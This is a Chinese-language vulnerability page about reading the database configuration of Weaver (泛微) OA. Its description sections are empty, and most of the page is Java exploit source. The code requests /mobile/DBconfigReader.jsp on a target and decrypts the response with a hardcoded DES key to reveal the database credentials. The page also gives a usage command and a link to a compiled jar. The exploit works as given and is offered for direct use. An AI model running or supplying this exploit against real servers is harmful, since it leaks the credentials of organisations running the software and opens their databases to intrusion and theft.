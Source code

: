 ```yaml
---
title: 泛微OA数据库配置文件读取
id: zhfly3328
---
```


# 泛微OA 数据库配置文件读取

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

https://github.com/ianxtianxt/ecologyExp.jar

使用方式：

jdk 1.8以上，没混淆可以直接看源码

使用方法：

java -jar ecologyExp.jar http://0-sec.org

源代码如下，编译好的在上方github链接里。

```
package com.test;

import org.apache.http.HttpEntity;

import org.apache.http.client.methods.CloseableHttpResponse;

import org.apache.http.client.methods.HttpGet;

import org.apache.http.impl.client.CloseableHttpClient;

import org.apache.http.impl.client.HttpClientBuilder;

import org.apache.http.util.EntityUtils;

import javax.crypto.Cipher;

import javax.crypto.SecretKey;

import javax.crypto.SecretKeyFactory;

import javax.crypto.spec.DESKeySpec;

import java.security.SecureRandom;

public class ReadDbConfig {

private final static String DES = “DES”;

private final static String key = “1z2x3c4v5b6n”;

```
public static void main(String[] args) throws Exception {
    if(args[0]!=null&amp;&amp; args[0].length() !=0){
        String url = args[0]+"/mobile/DBconfigReader.jsp";
        System.out.println(ReadConfig(url));
    }else{
        System.err.print("use: java -jar ecologyExp  http://127.0.0.1");
    }
}

private static String ReadConfig(String url) throws Exception {
    CloseableHttpClient httpClient = HttpClientBuilder.create().build();
    HttpGet httpGet = new HttpGet(url);
    CloseableHttpResponse response = httpClient.execute(httpGet);
    HttpEntity responseEntity = response.getEntity();

    byte[] res1 = EntityUtils.toByteArray(responseEntity);

    byte[] data = subBytes(res1,10,res1.length-10);

    byte [] finaldata =decrypt(data,key.getBytes());

    return (new String(finaldata));
}

private static byte[] decrypt(byte[] data, byte[] key) throws Exception {

    SecureRandom sr = new SecureRandom();
    DESKeySpec dks = new DESKeySpec(key);
    SecretKeyFactory keyFactory = SecretKeyFactory.getInstance(DES);
    SecretKey securekey = keyFactory.generateSecret(dks);
    Cipher cipher = Cipher.getInstance(DES);
    cipher.init(Cipher.DECRYPT_MODE, securekey, sr);

    return cipher.doFinal(data);
}

public static byte[] subBytes(byte[] src, int begin, int count) {
    byte[] bs = new byte[count];
    System.arraycopy(src, begin, bs, 0, count);
    return bs;
} 
``` `}` 
```